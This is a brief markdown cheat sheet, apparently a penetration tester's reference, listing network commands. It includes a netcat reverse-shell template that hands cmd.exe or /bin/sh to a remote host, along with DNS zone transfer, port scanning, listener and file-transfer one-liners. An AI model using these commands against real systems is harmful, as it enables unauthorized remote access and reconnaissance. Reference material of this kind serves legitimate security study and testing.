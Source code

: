 # rtfm

## network

<table>
  <tr>
    <th>command</th>
	<th>description</th>
  </tr>
  <tr>
    <td>host -t ns <i>domain</i></td>
    <td>ask the name servers for a domain</td>
  </tr>
  <tr>
    <td>host -l <i>domain nameServer</td>
    <td>dns zone transfer</td>
  </tr>
  <tr>
    <td>nc <i>ip port</i> -e <i>shell</td>
    <td>start reverse shell: cmd.exe, /bin/sh</td>
  </tr>
  <tr>
    <td>nc -l -p <i>port</td>
    <td>start listener</td>
  </tr>
  <tr>
    <td>nc -v -n -z -w1 <i>ip startPort</i> - <i>endPort</td>
    <td>tcp port scanner</td> 
  </tr>
  <tr>
    <td>nc -l -p <i>port fileName</i><br>nc -w3 <i>ip port fileName</td>
    <td>file transfers</td>
  </tr>
</table>
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTc5NjI3ODkwMSwtMTk2NjU4ODUxNV19
-->